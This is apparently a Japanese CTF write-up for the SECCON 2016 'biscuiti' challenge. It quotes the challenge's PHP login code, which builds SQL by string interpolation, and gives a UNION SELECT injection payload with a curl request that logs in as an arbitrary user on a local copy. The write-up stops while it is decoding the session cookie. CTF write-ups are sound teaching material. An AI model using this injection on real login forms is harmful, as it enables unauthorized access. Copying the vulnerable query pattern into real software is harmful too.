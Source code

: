 # biscuiti [Web, Crypto / 300pt]

## Problem
biscuiti

Can you login as admin?

[http://biscuiti.pwn.seccon.jp/](http://biscuiti.pwn.seccon.jp/)

[biscuiti.zip](https://github.com/AkashiSN/SECCON2016-Online-CTF/blob/master/Crypto/biscuiti/biscuiti.zip)

Note: You should estimate that exploits cost an hour.

## Answer

### 環境構築

[SECCON2016_online_CTF - GitHub](https://github.com/SECCON/SECCON2016_online_CTF/tree/master/Crypto/300_biscuiti)の

`build/README.md`にあるようにデプロイしてみる

```bash
cd build/deploy
vagrant up
sudo gem install itamae
itamae ssh --vagrant roles/main.rb
```

これで[http://localhost:10080](http://localhost:10080)で問題がホストされるようになった

### 問題を解く

![img](img.png)

問題ファイルの[index.php](https://github.com/AkashiSN/SECCON2016-Online-CTF/blob/master/Crypto/biscuiti/biscuiti/index.php)の認証部を見てみると

```php
if (isset($_POST['username']) && isset($_POST['password'])) {
    $username = (string)$_POST['username'];
    $password = (string)$_POST['password'];
    $dbh = new PDO('sqlite:../db/users.db');
    $result = $dbh->query("SELECT username, enc_password from user WHERE username='{$username}'");
    if (!$result) {
        login_page("error");
        /* DEBUG 
        $info = $dbh->errorInfo();
        login_page($info[2]);
        //*/
    }
    $u = $result->fetch(PDO::FETCH_ASSOC);
    if ($u && auth($u["enc_password"], $password)) {
        $SESSION["name"] = $u['username'];
        $SESSION["isadmin"] = $u['isadmin'];
        save_session();
        info_page();
    }
    else {
        login_page("error");
    }
}
else {
    load_session();
    if (isset($SESSION["name"])) {
        info_page();
    }
    else {
        login_page();
    }
}
```

となっていて、SQLインジェクションができそう

```sql
SELECT username, enc_password from user WHERE username='{$username}'
```

ここに、

```sql
'UNION SELECT 'hogehoge','hoge
```

を送り込んでやると

```sql
SELECT username, enc_password from user WHERE username=''UNION SELECT 'hogehoge','hoge'
```

という文が完成して、

```plain
+----------+------+
| hogehoge | hoge |
+----------+------+
```
というのが返ってくる。

```plain
$ curl -i -F "username='UNION SELECT 'hogehoge','hoge" -F "password=" http://localhost:10080
HTTP/1.1 100 Continue

HTTP/1.1 200 OK
Date: Fri, 17 Nov 2017 02:15:24 GMT
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: JSESSION=YToyOntzOjQ6Im5hbWUiO3M6ODoiaG9nZWhvZ2UiO3M6NzoiaXNhZG1pbiI7Tjt97kVYluAhjodZrAPgRb3AZg%3D%3D
Vary: Accept-Encoding
Content-Length: 139
Content-Type: text/html; charset=UTF-8

<!doctype html>
<html>
<head><title>Login</title></head>
<body>
Hello hogehoge
<div><a href="logout.php">Log out</a></div>
</body>
</html>
```

`hogehoge`としてログインできる

`%3D`は`=`なので、

```plain
JSESSION=YToyOntzOjQ6Im5hbWUiO3M6ODoiaG9nZWhvZ2UiO3M6NzoiaXNhZG1pbiI7Tjt97kVYluAhjodZrAPgRb3AZg==
```

これはBase64っぽい

